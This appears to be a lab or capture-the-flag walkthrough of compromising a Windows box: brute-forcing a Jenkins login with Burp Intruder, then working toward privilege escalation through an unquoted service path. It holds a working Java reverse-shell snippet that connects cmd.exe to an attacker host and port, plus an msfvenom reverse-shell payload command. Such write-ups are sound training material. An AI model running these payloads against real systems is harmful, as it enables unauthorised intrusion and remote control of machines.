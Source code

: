 Target IP: 192.168.2.5

First off, lets find out what the heck this box is. Lets start with nmap.
![[Pasted image 20250211231106.png]]

I am keeping it simple for speed, just basic service enumeration of common ports. Without even doing any OS enumeration, we know based on services this is a Windows machine. 
We can look for vulnerabilities in the 3 Microsoft services. I will just skip ahead to the Jetty http service on 8080. Lets open our web browser.
![[Pasted image 20250211231717.png]]
Looks like this is running Jenkins. Lets look that up.
![[Pasted image 20250211231831.png]]

Doing a basic check we can see a lot of potential vulnerabilities in Jenkins
![[Pasted image 20250211232050.png]]

Lets take a step back. This is a beginner box, so lets try a simple tactic, like brute forcing. If this was a lower level service we could use Hydra, but lets use a tool that works great with web pages, Burp Suite. 
Little helpful tip, instead of using a browser from Burp to intercept, you can use FoxyProxy to proxy your web traffic through the loopback address on your computer to be caught in Burp. 
I am just going to use testuser:testpass as credentials and catch that in Burp Suite.
![[Pasted image 20250211233032.png]]

If you just turned on your proxy, it should look like this. If not, just find this packet.
![[Pasted image 20250211233321.png]]

The packet should look like this. Now lets send this to intruder.

![[Pasted image 20250211233333.png]]

Now set mode to cluster bomb, and select both fields to add variables to both user and pass. We will add payloads that Burp will run. It will replace the fields and allow us to resend the packet itself to the web server.

![[Pasted image 20250211233844.png]]


![[Pasted image 20250211234345.png]]

![[Pasted image 20250211234517.png]]

![[Pasted image 20250211234944.png]]



Okay, sometimes if there is a winner here it may not be obvious. Lets look for outliers. If there was a request that succeeded we may see a large difference in response or status codes, or even packet size. There is one that is much smaller then the others (jenkins:jenkins). Lets see if that works.



String host="172.16.0.101";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();






[Unquoted Service Path](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md)
"The Unquoted Service Path vulnerability in Windows occurs when services are installed using paths containing spaces without proper quotation marks. If attackers obtain write permissions in the service's installation directory, they can execute malicious code with elevated privileges.

In Windows, when a file path contains spaces and isn't enclosed within quotation marks, the operating system assumes the file's location based on predetermined rules."


sc qc WiseBootAssistant
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service.exe

to kill a service 
sc stop <name>




